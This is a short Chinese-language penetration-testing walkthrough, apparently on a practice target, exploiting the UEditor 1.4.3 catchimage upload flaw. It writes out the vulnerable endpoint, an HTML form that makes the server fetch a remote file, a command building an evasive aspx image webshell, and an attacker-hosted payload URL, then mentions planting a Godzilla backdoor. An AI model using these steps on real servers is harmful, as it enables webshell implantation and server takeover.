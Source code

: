 看到第三方编辑器为 `百度Ueditor 1.4.3`，网上找找该编辑器有无漏洞

## Ueditor 1.4.3漏洞利用

```http
https://www.cnblogs.com/Ivan1ee/p/10198866.html
```

1、ueditor1.4.3 有历史漏洞，直接在 url 拼接路径没找到 controller.ashx 文件，下载回源码全局搜一下，最终拼接路径如下，访问页面显示存在漏洞

```http
http://www.ackmoon.com/admin/net/controller.ashx?action=catchimage
```

<img src=".\图片\Snipaste_2023-05-18_18-48-29.png" alt="Snipaste_2023-05-18_18-48-29" style="zoom:67%;" />

2、构造一个恶意的 html 文件

```html
<form action="http://www.ackmoon.com/admin/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">
<p>shell addr: <input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

3、在本地起一个 web 服务，制作一个免杀 aspx 图片马，`copy 11.jpg/b+test.aspx/a test.jpg`，命名为 test.jpg，下图 html 上传框内填写免杀马地址 `http://192.168.0.101:8081/test.jpg?.aspx`

<img src=".\图片\Snipaste_2023-05-18_18-56-37.png" alt="Snipaste_2023-05-18_18-56-37" style="zoom:80%;" />

补充：我这里利用失败了，显示  `Url is not an image` ，蚌埠住了，算了这个不重要，手动上传 哥斯拉 的后门吧

4、哥斯拉连接

<img src=".\图片\Snipaste_2023-05-19_11-40-04.png" alt="Snipaste_2023-05-19_11-40-04" style="zoom:80%;" />
